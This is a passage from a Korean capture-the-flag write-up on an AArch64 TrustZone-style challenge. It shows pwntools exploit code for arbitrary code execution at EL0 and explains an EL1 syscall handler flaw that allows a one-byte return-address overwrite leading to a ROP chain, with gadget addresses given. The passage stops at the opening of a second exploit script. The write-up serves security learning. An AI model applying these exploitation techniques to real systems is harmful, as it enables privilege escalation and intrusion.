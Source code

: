 ```python
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
elf = ELF("./el0")

el0_arbitrary_code_execute(
    f"""
    ldr x0, ={elf.symbols['print_flag']};\n
    blr x0;\n
    mov x0, #0;\n
    ldr x1, ={elf.symbols['exit']};\n
    blr x1;\n
    """
)

p.interactive()


p.recvuntil(b"Flag (EL0): ")
FLAG = p.recvline()
log.info(f"FLAG : {FLAG.decode()}")
```

### NS.EL1

EL0 에서 Arbitrary Code Execute 가 가능하므로 syscall 을 통해 EL1 의 취약점을 트리거 할 수 있다.  
EL1 의 취약점은 syscall handler 에서 read, write 를 처리하는 부분에 존재한다. read, write 를 하는 과정에서 읽기 또는 쓰기를 수행하는 주소의 권한 (EL0 인지 EL1 인지) 를 검증하지 않는다. 따라서 EL0 에서 read 와 write 를 통해 EL1 의 영역에 읽기 및 쓰기가 가능하다. 그러면 read 를 통해 EL1 의 스택을 바꿔 ROP 를 진행할 수 있다.

하지만 한번의 read 를 통해 바꿀 수 있는 값은 1 바이트이므로 return address 를 적절히 바꿔 ROP 가 가능하게 만들어야 한다. syscall handler 의 return address 는 `0xFFFFFFFFC000A830` 이고 1 바이트만 변경할 수 있으므로 사용할 수 있는 가젯은 제한된다.  
내가 찾은 가젯은 `0xffffffffc0009430: ldp    x19, x20, [sp, #0x10]; ldp    x29, x30, [sp], #0x20; ret;` 이다. 이 가젯을 통해 `0xFFFFFFFFC0019C00` 에 존재하는 값을 통해 ROP 를 할 수 있다.

#### Get Flag

ROP 를 통해 flag 를 출력해주는 함수를 호출하면 flag 를 얻을 수 있다.

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


```